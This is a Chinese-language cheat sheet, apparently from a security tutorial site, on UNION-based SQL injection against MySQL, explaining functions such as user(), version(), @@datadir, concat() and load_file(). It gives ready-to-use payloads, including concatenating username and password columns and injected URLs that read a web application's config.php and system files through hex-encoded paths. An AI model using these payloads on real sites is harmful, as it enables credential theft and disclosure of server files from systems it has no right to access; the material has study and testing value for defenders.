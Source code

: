 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)常用参数
注入语句格式为：
```
union select 1,2,3,XO,5,6...n from XXOO
```
参数的使用位置为XO位置，有的参数可搭配使用，如concat(user(),0x3a,version())

## ![](../img/github26.png)user()
数据库的用户，格式为：user@server,例如：root@localhost

这里server可以是服务器名，也可以是IP

所有的user都会在mysql数据库的user表中
## ![](../img/github27.png)database()
当前数据库名
## ![](../img/github28.png)version()
当前数据库版本，版本最后通常会表名系统版本
如：

5.2.1-nt

nt表示windows
## ![](../img/github1.png)@@datadir
数据路径
如
```
c:\program files\mysql5\data\
```
load_file需要用到数据路径
## ![](../img/github2.png)concat()
连接数据用的，这样就可以在同一个位置上显示username,password等多个想要的数据，避免了重复查询
举例：

concat(username,0x3a,password)
0x3a是冒号，作为分割标志

类似的还有group_concat(),concat_ws()
## ![](../img/github3.png)load_file()
读文件，用法：union select 1,2,hex(load_file(路径的hex值)),5,6

windows中需要双斜杠

举例：
```
union select 1,load_file(0x633a5c5c626f6f742e696e69)    //c:\\boot.ini的hex
```
后面可以不加from
```
简单用法,根据错误找到物理路径为C:\wamp\www\article.php，之后：
http://www.test.com/article.php?id=-1 union select 1,2,hex(load_file(0x433a5c77616d705c7777775c627574636865725c636f6e6669672e706870)),4,5,6
上面的0x433a5c77616d705c7777775c627574636865725c636f6e6669672e706870是C:\wamp\www\butcher\config.php的十六进制
或者：http://www.test.com/article.php?id=-1 union select 1,2,hex(load_file(0x433a5c77616d705c7777775c627574636865725c636f6e6669672e706870)),4,5,6 from mysql.user
```
__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
